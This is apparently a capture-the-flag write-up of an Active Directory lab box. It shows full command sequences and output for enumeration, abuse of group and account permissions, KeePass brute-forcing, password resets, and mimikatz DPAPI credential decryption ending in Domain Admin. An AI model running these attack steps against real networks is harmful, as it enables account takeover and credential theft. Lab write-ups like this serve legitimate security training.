

# Fluffy (10.10.11.70)

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-29 16:36:48Z)
111/tcp   open  rpcbind?      syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2049/tcp  open  rpcbind       syn-ack ttl 127
3260/tcp  open  iscsi?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49689/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63804/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
63832/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

- assume compromized box with given creds: levi.james / KingofAkron2025!

# SMB

- since we have creds we can try to get domain info with NXC and dump ldap with bloodhound:
```bash
 nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!'  

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
```
- cred works and we have the machine and domain name
- we can enumerate the pass policy to bruteforce:
```bash
nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!'  --pass-pol

...
SMB         10.10.11.70     445    DC               Account Lockout Threshold: None
...
```
we are can password spray

- we can only read default shares, but there's a "DEV" share "DEV-SHARE for PUPPY-DEVS"
# LDAP

- we have no asrep - krbroast

- by dumping the LDAP config we can see that levi is part of "HR" group that has "generic write" over "DEVELOPER" group
```bash
nxc ldap 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --bloodhound -c All --dns-server 10.10.11.70 --dns-tcp

LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.10.11.70     389    DC               Resolved collection methods: trusts, dcom, group, rdp, psremote, session, localadmin, acl, objectprops, container
LDAP        10.10.11.70     389    DC               Done in 00M 19S
LDAP        10.10.11.70     389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.11.70_2025-09-29_114742_bloodhound.zip
```


- we've added ourself to the group:
```bash
net rpc group addmem "DEVELOPERS" "levi.james" -U "puppy.htb"/"levi.james"%'KingofAkron2025!' -S "10.10.11.70"
```

# SMB

- we can check again on the shares, and indeed we have access to DEV share
- we can see a keepass db:
```bash
smbclient //10.10.11.70/DEV -U 'levi.james%KingofAkron2025!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Mar 23 08:07:57 2025
  ..                                  D        0  Sat Mar  8 17:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 08:09:12 2025
  Projects                            D        0  Sat Mar  8 17:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 03:25:46 2025
```
- the MSI is signed and the Projects folder is empty
- we can try to bruteforce keepassDB, since it is 4000 mode we cannot use keepass to john
- there are a bounch of ways to do it (the latest github repo of keepass2john works), i used https://github.com/toneillcodes/brutalkeepass/
```bash
python3 bfkeepass.py -d ../../loot/smb/recovery.kdbx -w /usr/share/wordlists/rockyou.txt
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[*] Stopping bruteforce process.
[*] Done.
```
- inside the keepassDB we found some creds, by password spraying them we found a valid login:
```bash
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

# LDAP

- in bloodhound we can see that the user ant.edwards has the GenericAll on adam.silver:

- since we have generic all, we can try to change psw:
```bash
net rpc password  adam.silver 'Password123!' -U 'PUPPY.HTB'/'ant.edwards'%'Antman2025!' -S 10.10.11.70
```
- we can try to login but the account is disabled:
```bash
nxc smb 10.10.11.70 -u adam.silver -p 'Password123!'                                                  
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:Password123! STATUS_ACCOUNT_DISABLED
```
- we can re-enable it by modifying the UAC entry (Since we still have GenericAll on user):
```bash
python3 bloodyAD.py  -u ant.edwards -d puppy.htb -p 'Antman2025!' --host 10.10.11.70 remove uac adam.silver -f "ACCOUNTDISABLE"
```
# WINRM 5985/tcp

- since there is a cleanup script that resets the user flags and pwd, i automated the 2 steps:
```bash
#!/bin/bash

net rpc password  adam.silver 'Password123!' -U 'PUPPY.HTB'/'ant.edwards'%'Antman2025!' -S 10.10.11.70
python3 bloodyAD.py  -u ant.edwards -d puppy.htb -p 'Antman2025!' --host 10.10.11.70 remove uac adam.silver -f "ACCOUNTDISABLE"
evil-winrm -i 10.10.11.70 -u adam.silver -p 'Password123!'
```
- we can see from bloodhound that the users belong to Remote management users, so we can log via winrm
- inside the "Backup" folder we can see zip of a site backup. we can download it and we can see a password in config file "nms-auth-config.xml.bak":
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```
- we can log with steph.cooper!

- By running WinPEAS, we can see that we have some DPAPI masterkey and cred files:
```powershell
ÉÍÍÍÍÍÍÍÍÍ͹ Checking for DPAPI Master Keys
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    MasterKey: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:40:36 AM
    Modified: 3/8/2025 7:40:36 AM
   =================================================================================================


ÉÍÍÍÍÍÍÍÍÍ͹ Checking for DPAPI Credential Files
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================

    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
   =================================================================================================
```

- we got the key:
```cmd
C:\Users\steph.cooper\Documents> .\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc"  "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {556a2412-1275-4ccf-b721-e6a0b4f90407}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000088 - 136
  dwBackupKeyLen     : 00000068 - 104
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000174 - 372
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : b23f3121344180480064e02b82150b9a
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : fb531b9368acdcf185c7f1e3f8d88318fe24ad0704732ef232fb626a50bcb897ecfdebf0982651eeaef634650c38cc3870e866f2b3ae02253946c2d2d9b883fe1fc0521f31606ad3f7cb9055281145af975fc142520a0187c8a155c884d46d73e2a7aa35d5ef0f81

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 820779384e02113e2f0fcd4e73ddb332
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 27b10adc59892b80c774c4b7408c217db84b8a0b69b3b030b46bc00ec6043147dde0989c615265560d0de3efe2c2457e8959dd4bfcd973926c437a18a577a32da0ede777dd1fe5d0

[domainkey]
  **DOMAINKEY**
    dwVersion        : 00000002 - 2
    dwSecretLen      : 00000100 - 256
    dwAccesscheckLen : 00000058 - 88
    guidMasterKey    : {3ec516f3-8016-4236-bacf-b9a90ea50992}
    pbSecret         : 48c6dee438ddf25fb827cba81d28ade3e7b50472486cedbcbb0b7247197643bb64e9efe38e5a91392c43a10507737ee38d5b67e1255da2e0df9b9da4cd94f656178ee80d03aa30e5101d7d41bce7f414e9186e32ecff06b86c8df35b1b3682cdf38c967b5980d7909264f1f1f1fae8bfa63074b40483b1fcbf2bfd662786841470be9be9e204eeaf449619a99ced6379f74c3c569f7c2759f7b774c5f07da8b570a39e933d9ba7b13224df5a94d67cdf451622f6682ec6cebfc56a6ce5310e44e5002793addbd93fdd3099e9e68214f1c0cfabe4425514b171d02050e0193313ecf4273b0540fe1115533148bf269ecc95580ad5c21e8a9025fe0673e5ab3238
    pbAccesscheck    : 99db4e12dadb294b01fd2f6966463c541668845f73c9e2da25645258023bb6c8f580c8c03c93190c34633fef444fc426fb41e1b089756f8472793c4d46e89374864281312f72394e6d9afc5ebfa2c71cf5895c8962849aa4


Auto SID from path seems to be: S-1-5-21-1487982659-1829050783-2281216199-1107

[domainkey] with RPC
[DC] 'PUPPY.HTB' will be the domain
[DC] 'DC.PUPPY.HTB' will be the DC server
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701

mimikatz(commandline) # exit
Bye!
```

- We finally can decrpyt the credential file:
```cmd
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> .\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 /unprotect"  "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 /unprotect
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {556a2412-1275-4ccf-b721-e6a0b4f90407}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data


  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : 711bed180e9affbd35ae0e91ff77b395
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : 0ad0ff7a33f05732d938c7562521cd70
  dwDataLen          : 000000d0 - 208
  pbData             : 315eb3036256373fb93c03158b0669b2281ac05551a17e77d5ae4ccb42ed8004d7aed11eb66c4149d0275f70138d963f098369ad7155d75ae60f4a2543b1efec3ae75049fdd91a66210b3db503c73a24218b8d6b92efc7d09f22d6e5154b2f3669dbeea011c494d44b3115d1c2a7d713d5f1c81e5d1c5db22f1ad7d475e21cc4fabf9cde4f63c4d1dd3f22eebc358797c4ce5097ec817322ed1abf218f9eb20336006eb48907597fb18ebcd6297184886acc91b82246f7ddc05c5bfd7ac44fd3a9f281b12e423a32bf1098565b8d2e35
  dwSignLen          : 00000014 - 20
  pbSign             : 3ab1905cf0eef6d04985f52dfb4989a7f6c1a49c

Decrypting Credential:
 * using CryptUnprotectData API
 * masterkey     : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000c8 - 200
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 3/8/2025 3:54:29 PM
  unkFlagsOrSize : 00000030 - 48
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```
- we are Domain Admin
